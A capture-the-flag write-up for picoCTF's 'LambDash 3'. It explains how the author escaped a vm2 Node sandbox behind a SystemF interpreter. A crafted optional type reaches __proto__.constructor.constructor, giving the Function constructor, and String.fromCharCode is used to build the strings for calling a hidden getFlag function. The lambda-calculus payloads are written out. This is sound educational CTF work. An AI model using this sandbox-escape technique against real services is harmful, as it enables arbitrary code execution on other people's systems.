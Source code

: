 # LambDash 3
In this challenge we were given a site with an introduction to a variant of the Lambda Calculus language called SystemF, along with an online web shell. 

### Getting the source
First thing I did was sending an extremely large payload to the interpreter (endpoint: `/run`) to see what would happen. It returned a stack trace containing the path to the challenge files. I logged in to the picoCTF shell, zipped the whole directory, and downloaded it with scp. 

### Initial setup
We can see that this app is written in TypeScript and is running on NodeJS. I set it up locally to make exploiting and debugging easier. To do this, navigate to the directory named "problem" in source and run the following command:
```sh
tsc --build tsconfig.json && node --inspect ./dist/server.js
```

The app will be compiled and run on local port 4001. You can also debug it like any other Node app using Chromium DevTools by visiting [chrome-devtools://devtools/bundled/inspector.html?experiments=true&v8only=true&ws=127.0.0.1:9229/**<uuid>**](chrome-devtools://devtools/bundled/inspector.html?experiments=true&v8only=true&ws=127.0.0.1:9229/<uuid>), where <uuid> is the UUID given to you when you run the app. 

### Analysis
Okay, now we're in possession of the app's source code and the app is running locally. Let us analyze what is this app doing. If you access `/problem/src/server.ts`, you can see the source of the `/run` endpoint:
```javascript
	app.post("/run", (req, res) => {
		let code = req.body.code;
		let ast: E; 
		try {
			ast = parse(code);
		} catch (e) {
			res.send(`Error -- code did not parse<br>${e.toString()}`);
			return;
		}
		let type: Type;
		try {
			type = typecheck(ast);
		} catch (e) {
			res.send(`Error -- code did not typecheck<br>${e.toString()}`);
			return;
		}
		let vm = new vm2.NodeVM({
			timeout: 1000,
			sandbox: {
				ast,
				hidden: {
					getFlag: ((f: string) => ((x: string) => {
						if (x === "if you can get this you deserve the flag -> abcd1234!@#$%^&*()'") {
							return f;
						}
						return "Bad! " + x;
					}))(process.env.FLAG)
				},
			},
			require: {
				context: "sandbox",
				external: ["./emulator", "immutable"],
				root: __dirname,
			},
		});
		try {
			let result = vm.run(new vm2.VMScript(`
				let emulator = require("${__dirname}/emulator");
				module.exports = emulator.resToString(emulator.default(ast));
			`));
			console.log(result);
			res.send(`Result:<br>${result}:${typeToString(type)}`);
		} catch (e) {
			console.log("Wut", e.stack);
			res.send(`Error -- failed to execute<br>${e}`);
		}

	})
```
It does a few things:
* It parses the received code to get AST (abstract syntax tree)
* It checks if all types in the program are okay
* It runs the program in a Node sandbox of some kind, while also passing an object containing the function that we're interested in:
```javascript
hidden: {
	getFlag: ((f: string) => ((x: string) => {
		if (x === "if you can get this you deserve the flag -> abcd1234!@#$%^&*()'") {
			return f;
		}
		return "Bad! " + x;
	}))(process.env.FLAG)
},
```
* It prints the result of the program to the user

As such, our objective is clear: it's to submit a piece of code to /run that would run `hidden.getFlag("if you can get this you deserve the flag -> abcd1234!@#$%^&*()'")` and return the result. Easy enough, isn't it? Well, I found it everything _but_ easy, as my knowledge of both JS and functional programming is pretty much non-existent. At this point I started learning from the provided tutorial, submitting different programs, analyzing them, analyzing the code of the interpreter (located in `/problem/src/emulator.ts`), and so on. It took me about 10 hours.

### Exploitation
LC = Lambda Calculus SystemF, the language used in this task

*While writing this solution, it occurred to me that my original solution was a bit needlessly complicated and contained some redundancy. This solution is slightly more reasonable. You can find the original payload that I used to solve this task in payload_old.txt.*

There is only one bug that we need to find in order to solve this task, and everything else is its consequence.
LC has tuples and optional types, both of which are implemented as JS objects. Therefore, if you have tuple consisting of int f and int g, it will internally exist as a JS object, such as:
```javascript
{
    f: 5
    g: 10
}
```
Optional type is very similar, except there is just one variable in it. When the interpreter wants to do something with an optional type, it iterates over the possible parameter names and checks if a parameter is present in the object (`object[name] != undefined`).
Objects to be used as tuples/optionals are created using this function (you can find it in `/problem/src/emulator.ts`):
```javascript
function getCleanObject(): { [key: string]: any } {
	let obj = {};
	for (let prop of Object.getOwnPropertyNames((obj as any).__proto__)) {
		(obj as any)[prop] = undefined;
	}
	(obj as any).__proto__ = undefined;
	return obj;
}
```
_Now comes the part that I still cannot fully comprehend, some help from a NodeJS expert would be greatly appreciated._

The most important part of the solution is to figure out that this function doesn't really work. I'm not sure why, but it probably has to do with Node internals. If you create an object using `a = getCleanObject()`, it will **still have** the `__proto__` attribute, instead of having it undefined, which means you can reference `a['__proto__']`. 
Knowing that in any optional the `__proto__` attribute is always set, we can define an optional with 
```< `__proto__ { `constructor { `constructor int }} + `val int>```, 
and proceed to create a new instance of it with `val` set to a number. While processing this optional, we can tell the interpreter to look for the `__proto__` attribute first. It will of course find it, thinking that it is a tuple containing an attribute called `constructor`, which in turn is another tuple containing an attribute called `constructor`. So, by extracting it, we do something like:
```javascript
a = {}
a['__proto__']['constructor']['constructor']
```
Which gives us the JavaScript function constructor. How to do it in LC? Here's the code:
```
(alias opta = < `__proto__ { `constructor { `constructor int -> (int -> int)}} + `val int -> (int -> int)> in
(lambda argb:opta.
    case(argb) {
        `__proto__ rr -> rr#`constructor#`constructor
        | `val rr -> rr}
)(`val (lambda xx:int.lambda xxx:int.xx) as opta))
```
I changed the parameter types from int to int -> (int -> int), because we need to call this constructor, and then call the function that it returns. So now we've fooled the interpreter into thinking that the JavaScript function constructor is a lambda expression taking an int and returning another lambda expression, which in turn takes an int and returns an int. Complicated, but now we're just one step away from victory, and the question is: how to pass a string to that function?

Well, LC doesn't have strings, so we have to implement them ourselves, which was easy compared to the rest of the task.
We can use the exact same trick as before, but this time let's retrieve the String.fromCharCode method instead.
In JS that would be:
```javascript
a['__proto__']['constructor']['name']['constructor']['fromCharCode']
```
As translated to LC:
```
(alias opta = < `__proto__ { `constructor { `name { `constructor { `fromCharCode int -> int}}}} + `val int -> int> in
(lambda argb:opta.
    case(argb) {
        `__proto__ r -> r#`constructor#`name#`constructor#`fromCharCode 
        | `val r -> r
    }
)(`val (lambda x:int.x) as opta))
```
We can then call this lambda by passing an int to it, and we receive the corresponding char (which the interpreter thinks is an int).
All that's left is to concatenate those chars using a different lambda, pass the string to the function constructor, and call the result. 
Example demonstrating the construction of a two char long string:
```
(lambda a : int.
lambda b : int.
    a + b)
((alias opta = < `__proto__ { `constructor { `name { `constructor { `fromCharCode int -> int}}}} + `val int -> int> in
(lambda argb:opta.
    case(argb) {
        `__proto__ r -> r#`constructor#`name#`constructor#`fromCharCode 
        | `val r -> r
    }
)(`val (lambda x:int.x) as opta)) 65)
((alias opta = < `__proto__ { `constructor { `name { `constructor { `fromCharCode int -> int}}}} + `val int -> int> in
(lambda argb:opta.
    case(argb) {
        `__proto__ r -> r#`constructor#`name#`constructor#`fromCharCode 
        | `val r -> r
    }
)(`val (lambda x:int.x) as opta)) 66)
```
After preparing the full payload and pasting it to the site, we got the flag, which I unfortunately didn't save anywhere :D
The full payload is available in payload.txt.
